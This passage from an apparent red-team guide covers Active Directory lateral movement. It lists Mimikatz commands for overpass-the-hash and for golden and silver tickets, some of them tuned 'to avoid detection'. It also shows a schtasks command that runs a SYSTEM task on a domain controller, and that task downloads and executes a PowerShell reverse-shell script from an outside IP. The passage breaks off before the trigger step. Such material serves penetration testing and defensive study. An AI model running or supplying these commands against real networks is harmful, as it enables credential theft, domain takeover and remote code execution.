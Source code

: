 PowerShell

Once we have a TGT as the target user, we can use services as this user in a domain context, allowing us to move laterally.

# Lateral Movement with Mimikatz

Note that Mimikatz is incredibly versatile and is discussed in multiple sections throughout this blog. Because of this, however, the binary is also very well-detected. If you need to run Mimikatz on your target (not recommended), executing a custom version reflectively is your best bet. There are also options such as [Invoke-MimiKatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) or [Safetykatz](https://github.com/GhostPack/SafetyKatz). Note that the latter is more stealthy but does not include all functionality.

# Overpass-the-hash (more risky than Rubeus, writes to LSASS memory)  
sekurlsa::pth /user:Administrator /domain:targetdomain.com /ntlm:[NTLMHASH] /run:powershell.exe# Or, a more opsec-safe version that uses the AES256 key (similar to with Rubeus above) - works for multiple Mimikatz commands  
sekurlsa::pth /user:Administrator /domain:targetdomain.com /aes256:[AES256KEY] /run:powershell.exe# Golden ticket (domain admin, w/ some ticket properties to avoid detection)  
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt# Silver ticket for a specific SPN with a compromised service / machine account  
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.targetdomain.com /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

Plaintext

> _A nice overview of the SPNs relevant for offensive purposes is provided_ [_here_](https://adsecurity.org/?p=2011) _(scroll down) and_ [_here_](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#pass-the-ticket-silver-tickets)_._

# Command execution with scheduled tasks

_Requires ‘Host’ SPN_

To create a task:

# Mind the quotes. Use encoded commands if quoting becomes too much of a pain  
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dc.targetdomain.com /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1''')'"

PowerShell

To trigger the task:

